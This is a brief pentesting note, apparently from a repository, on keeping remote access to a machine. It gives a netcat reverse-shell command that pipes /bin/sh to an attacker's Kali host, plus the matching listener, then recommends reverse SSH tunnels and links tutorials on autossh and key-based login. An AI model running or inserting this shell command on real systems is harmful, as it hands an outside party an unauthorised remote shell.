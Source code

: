 
##Netcat sucks but would work...

/bin/sh | nc TARGET IP 80 #This is the IP of the Kali device
nc -lvp 80 # Run this listener on Kali

##SSH is better.

Autossh - https://linux.die.net/man/1/autossh
Reverse SSH Tunneling Tutorial - https://www.howtoforge.com/reverse-ssh-tunneling 
SSH Keys instead of passwords - https://www.digitalocean.com/community/tutorials/how-to-configure-ssh-key-based-authentication-on-a-linux-server 


